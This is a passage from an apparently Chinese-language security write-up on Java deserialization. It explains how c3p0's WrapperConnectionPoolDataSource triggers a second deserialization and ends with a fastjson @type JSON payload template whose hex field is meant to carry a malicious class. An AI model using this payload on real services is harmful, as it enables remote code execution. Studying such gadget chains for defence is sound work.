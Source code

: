 ```java
        ObjectOutputStream oos = new ObjectOutputStream(bos);  
        oos.writeObject(obj);  
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());  
        ObjectInputStream ois = new ObjectInputStream(bis);  
        ois.readObject();  
    }  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {  
        Field f = obj.getClass().getDeclaredField(fieldName);  
        f.setAccessible(true);  
        f.set(obj, value);  
    }  
}
```

利用 cc 链第一次反序列化调用到 `connect` 方法，然后进行二次反序列化反序列化 base64 的内容。

## PrototypeSerializationFactory *

## WrapperConnectionPoolDataSource

`WrapperConnectionPoolDataSource`继承于`WrapperConnectionPoolDataSourceBase`，在`WrapperConnectionPoolDataSourceBase`中存在属性`userOverridesAsString`及其setter方法`setUserOverridesAsString`，触发`fireVetoableChange`事件处理

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164910781-792111278.png)

在`WrapperConnectionPoolDataSource`中有个判断当其属性为`userOverridesAsString`时，将调用`parseUserOverridesAsString`方法

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164910180-769075778.png)

进入`parseUserOverridesAsString`方法，截取`HexAsciiSerializedMap`之后的内容，进入到`fromByteArray`

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164909379-841353136.png)

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164908688-78156973.png)

最后进入到`deserializeFromByteArray`中，进行二次反序列化

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164907714-649886435.png)

结合fastjson来exploit

```java
{
    "rand1": {
        "@type": "java.lang.Class",
        "val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
    },
    "rand2": {
        "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
        "userOverridesAsString": "HexAsciiSerializedMap:hexstring;",
    }
}
```

`hexstring`就是我们的恶意类代码

参考：https://www.cnblogs.com/F12-blog/p/18127214

参考：https://tttang.com/archive/1701/#toc_invokertransformer